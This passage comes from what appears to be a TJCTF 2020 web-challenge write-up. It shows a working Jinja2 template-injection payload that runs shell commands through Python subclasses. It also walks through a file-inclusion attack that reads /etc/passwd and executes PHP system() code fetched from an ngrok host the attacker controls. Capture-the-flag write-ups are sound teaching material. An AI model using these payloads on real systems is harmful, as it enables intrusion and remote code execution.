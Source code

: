 ```python
  'lname': 'test',
  'email': 'test',
  'username': {% raw %}'{{((\'\'|attr(request.args.cl)).mro().pop()|attr(request.args.sub)()).pop(request.args.uno|int)(\'cat strategyguide.txt\', shell=True,stdout=(request.args.meno|int)).communicate()}}'{% endraw %}
}

response = requests.post('https://congenial_octo_couscous.tjctf.org/apply?cl=__class__&sub=__subclasses__&dic=__dict__&uno=199&meno=-1', headers=headers, data=data)
print(response.content)
```
🏁 __tjctf{c0ng3n1al_500iq_str4ts_ez_dub}__{:.spoiler}

## File Viewer

> So I've been developing this really cool site where you can read text files! It's still in beta mode, though, so there's only six files you can read.

We are given this simple website where we can insert a file name and the server reads it for us.

![web](/assets/img/TJCTF20/web_6.png)

By inserting apple.txt we can see it's content. Observing the url, we get _https://file_viewer.tjctf.org/reader.php?file=apple.txt_. What if we try the classic _https://file_viewer.tjctf.org/reader.php?file=/etc/passwd_

![web](/assets/img/TJCTF20/web_8.png)

The goal is to read a hidden file somewhere on the filesystem. We need RCE so we can search for our flag. Lets see if we can get files from remote hosts.
Setting up an ngrok host tunneling our local enviroment, we can read and include controlled contents.
Lets set up a simple php script that executes :
```php
<?php system('ls');
```
![web](/assets/img/TJCTF20/web_9.png)

Voilà, lets read our flag :

```php
<?php system('cat i_wonder_whats_in_here/flag.php | base64');
```

🏁 __tjctf{n1c3_j0b_with_lf1_2_rc3}__{:.spoiler}

## Moar Horse 4

> It seems like the TJCTF organizers are secretly running an underground virtual horse racing platform! They call it 'Moar Horse 4'... See if you can get a flag from it!

This website is a sort of cyber-horse racing platform. Upon entering the website we are given $150 and we can buy a horse.
